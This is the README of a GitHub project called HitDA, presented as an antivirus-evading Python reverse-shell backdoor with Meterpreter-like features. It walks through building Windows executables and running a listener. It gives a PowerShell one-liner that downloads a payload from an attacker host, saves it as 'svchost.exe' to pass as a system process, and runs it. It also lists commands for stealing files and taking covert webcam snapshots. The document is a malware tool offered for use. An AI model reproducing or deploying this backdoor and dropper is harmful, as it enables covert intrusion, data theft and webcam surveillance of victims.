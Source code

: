 # HitDA
HitDA is a Multi-Function backdoor based on TCP Reverse Shell write in Python3 for Kali Linux.
It is easy to bypass the **AV-Software**.In addition to the basic reverse shell function
, you can also use some powerful functions which are similar to Meterpreter.
Like **File Download/Upload**, **Webcam snapshot**, I will continue to add more function
 later.
 
## Setup
````
git clone https://github.com/HalukShan/HitD.git
````
 You need to install some dependencies on your Kali Linux, Use
 ````
cd HitDA; pip3 install -r ./requirements.txt
````
And install `pyinstaller`
```
pip3 install pyinstaller
```
Next install `docker-pyinstaller`, this tool help you generate a 
Windows `.exe` file more easily, but you should install docker first.
Now I give the complete steps below:

Add Docker PGP Authkey
````
curl -fsSL https://download.docker.com/linux/debian/gpg | sudo apt-key add -
````
Config Docker APT
```
echo 'deb [arch = amd64] https://download.docker.com/linux/debian buster stable'| sudo tee /etc/apt/sources.list.d/docker.list
```
Update apt and install
```
sudo apt-get update; sudo apt-get install docker-ce
```
Enable docker
```
sudo systemctl enable docker
```
After complete these steps, you can download `docker-pyinstaller`:
```
cd HitDA; git clone https://github.com/cdrx/docker-pyinstaller.git
```
Now you've done all the steps

## Usage
```
cd HitDA
```
Run the main script
```
python3 HitDA.py
```
Now you can see the menu
```
[*] Starting HitD...
[+] Init Success


    __    __   __  .___________. _______       ___      
   |  |  |  | |  | |           ||       \     /   \     
   |  |__|  | |  | `---|  |----`|  .--.  |   /  ^  \    
   |   __   | |  |     |  |     |  |  |  |  /  /_\  \   
   |  |  |  | |  |     |  |     |  '--'  | /  _____  \  
   |__|  |__| |__|     |__|     |_______/ /__/     \__\ 
                                                        

author: HalukShan
 =========================================================
||                     Menu Option                       ||
||                                                       ||
|| [0] Generate Script                                   ||
|| [1] Start Listening                                   ||
|| [9] Exit                                              ||
 =========================================================
```
When you choose 0, you can choose the platform you want, and choose the script with webcam snap function
or not, the webcam function will increase the script size to about
**50MB**, otherwise, it's about **5MB**. 

You can also use the **powershell** 
script to automate download the script and execute, it will be more
anonymous and customizable. Like:
````
mkdir C:\tmp
cd C:\tmp
powershell $client = new-object System.Net.WebClient;$client.DownloadFile('http://youripordomain/script.exe','svchost.exe');
svchost.exe
````
Save as .bat file, and use battoexe to generate a small exe file.

### Listening
Choose option 1 to start the listening mode, enter your listening host
and port, then wait the connection. When successfully connect to the cmd shell, you can use some command like

Download the specified remote file and save as local filename 
```
download remote_filename local_filename
```

Webcam snapshot and save as filename
```
webcam_snap filename
```

There are some common usages of cmdshell
```
cd path
mkdir dirname
echo "content" >> filename
del filename
tasklist
taskkill /PID pid /F
netstat
```

## TroubleShoot
If you got the below error message when generating
```
Failed to establish a new connection: [Errno 11002] getaddrinfo failed')': /simple/opencv-python/
```
Adding Google DNS to your local config
```
vim /etc/resolv.conf
```
Add
```
# Google IPv4 nameservers
nameserver 8.8.8.8
nameserver 8.8.4.4
```
